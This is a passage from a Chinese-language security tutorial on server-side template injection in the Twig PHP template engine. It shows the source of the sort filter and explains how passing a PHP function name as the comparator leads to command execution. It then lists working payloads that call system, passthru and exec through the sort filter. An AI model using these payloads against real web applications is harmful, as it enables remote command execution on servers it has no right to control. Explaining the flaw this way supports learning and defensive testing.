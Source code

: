 ```php
{% for user in users|sort %}
    ...
{% endfor %}


{% set fruits = [
    { name: 'Apples', quantity: 5 },
    { name: 'Oranges', quantity: 2 },
    { name: 'Grapes', quantity: 4 },
] %}

{% for fruit in fruits|sort((a, b) => a.quantity <=> b.quantity)|column('name') %}
    {{ fruit }}
{% endfor %}

// Output in this order: Oranges, Grapes, Apples
```

> 类似于 map，模板编译的过程中会进入 twig_sort_filter 函数，这个 twig_sort_filter 函数的源码如下

```php
function twig_sort_filter($array, $arrow = null)
{
    if ($array instanceof \Traversable) {
        $array = iterator_to_array($array);
    } elseif (!\is_array($array)) {
        throw new RuntimeError(sprintf('The sort filter only works with arrays or "Traversable", got "%s".', \gettype($array)));
    }

    if (null !== $arrow) {
        uasort($array, $arrow);    // 直接被 uasort 调用 
    } else {
        asort($array);
    }

    return $array;
}
```

> 从源码中可以看到，`$array` 和 `$arrow` 直接被 `uasort` 函数调用，由于 `uasort` 函数可以使用用户自定义的比较函数对数组中的元素按键值进行排序，如果自定义一个危险函数将造成代码执行或命令执行

<img src="./md5和twig/2.png" alt="">

> Payload

```php
{{["calc", 0]|sort("system")}}
{{["calc", 0]|sort("passthru")}}
{{["calc", 0]|sort("exec")}}    // 无回显
```

### filter 过滤器
> 这个 filter 过滤器使用箭头函数来过滤序列或映射中的元素，箭头函数用于接收序列或映射的值
